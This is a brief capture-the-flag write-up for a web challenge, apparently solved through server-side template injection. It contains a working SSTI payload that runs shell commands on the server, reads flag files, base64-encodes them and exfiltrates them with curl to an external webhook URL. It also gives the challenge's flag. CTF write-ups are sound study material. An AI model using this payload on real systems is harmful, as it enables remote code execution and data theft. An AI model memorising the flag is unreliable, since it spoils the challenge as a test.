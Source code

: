 ## Question
The attempted attempt to tempt the untempted into a tempting but contemptible scheme was an untempting temptation that exemplified not only contempt but also a preemptive exemption from any redemptive attempts.

## Solution
Here we've been given a website which looks like this.
![image](https://github.com/user-attachments/assets/993c6b48-9f42-4ce4-9f0b-146d13aae219)

we aren't allowed to see source, which gives an interesting angle to the challenge.

Assuming this being SSTI, we wrote a command `${__import__('os').popen('cat /tmp/fla* | base64 | curl -X POST -d @- https://webhook.site/d9136a16-8404-4142-ac08-00a03be64ef5').read()}`
which sends the post to the webhook which we can create and we'll get the flag in base64 encoded which when decoded will get the flag.
![image](https://github.com/user-attachments/assets/b7fc1e65-1ac0-4795-b57c-6699d195fe7a)

`flag: ENO{T3M_Pl4T_3S_4r3_S3cUre!!}`

